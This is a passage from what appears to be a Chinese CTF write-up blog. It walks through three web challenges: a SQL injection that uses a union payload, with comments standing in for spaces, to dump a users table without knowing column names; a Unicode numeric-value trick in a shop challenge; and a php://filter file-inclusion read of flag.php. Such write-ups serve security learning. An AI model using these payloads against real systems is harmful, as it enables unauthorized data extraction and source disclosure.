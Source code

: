 ![](https://img-blog.csdnimg.cn/20200317193516769.png)
一定要和表的列数相同 `select 1,2,3 union select * from users;`
![](https://img-blog.csdnimg.cn/20200317193853132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
若可用 ` 的话
```sql
select `3` from (select 1,2,3 union select * from users)a;
```
![](https://img-blog.csdnimg.cn/20200317194256663.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
若不可用的话也可以用别名来代替
`select b from (select 1,2,3 as b union select * from users)a;`
![](https://img-blog.csdnimg.cn/20200317194549161.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
那么即可构造payload如下
```sql
-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```
![](https://img-blog.csdnimg.cn/20200317180731559.png)
尝试另一个师傅的payload中使用`sys.schema_auto_increment_columns`和`sys.schema_table_statistics_with_buffer`发现都不存在，与环境有关吧
![](https://img-blog.csdnimg.cn/20200317201522800.png)
参考：
[mysql.innodb_table_stats](https://mariadb.com/kb/en/mysqlinnodb_table_stats/)
[聊一聊bypass information_schema](https://www.anquanke.com/post/id/193512)
[SWPUCTF 2019 web](https://www.cnblogs.com/tlbjiayou/p/12014926.html)

## [ASIS 2019]Unicorn shop
看不懂，查看wp
当我们的price超过9时，会出现一个提示
![](https://img-blog.csdnimg.cn/20200317203742318.png)
查看源码提示utf-8很重要。。。。。。
![](https://img-blog.csdnimg.cn/2020031720384531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
猜测只要购买了第四只独角兽，就能获取flag，于是我们需要找到一个字符比1337大的数字也就是utf-8编码的转换安全问题
在下面网站找到大于1337.0的字符即可：[Unicode](https://www.compart.com/en/unicode/)
这里我就找了和师傅一样的，~~实在不知道怎么找~~
![](https://img-blog.csdnimg.cn/20200317205841408.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
**UTF-8 Encoding:	0xE1 0x8D 0xBC。将0x换为%即可**
传入`%E1%8D%BC`得到flag
![](https://img-blog.csdnimg.cn/20200317210022660.png)
参考：[[ASIS 2019]Unicorn shop](https://www.cnblogs.com/Cl0ud/p/12221360.html)


## [ACTF2020 新生赛]Include
~~看到新生赛，松了一大口气，终于能写了qaq~~
点击tips发现很明显的文件包含，伪协议即可
`?file=php://filter/read=convert.base64-encode/resource=flag.php`
![](https://img-blog.csdnimg.cn/20200317210505255.png)
